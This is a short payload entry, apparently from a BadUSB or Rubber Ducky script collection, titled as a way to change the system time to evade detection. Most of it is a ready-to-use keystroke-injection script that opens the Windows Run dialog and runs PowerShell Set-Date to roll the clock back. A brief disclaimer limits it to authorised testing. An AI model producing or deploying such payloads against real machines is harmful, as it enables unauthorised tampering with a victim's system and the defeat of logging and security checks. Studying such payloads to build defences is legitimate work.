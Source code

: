 # Modifying System Time to Evade Detection

Changes the system date and time to an earlier time, potentially evading detection from security software.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "Set-Date -Date '01/01/2020 12:00:00'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.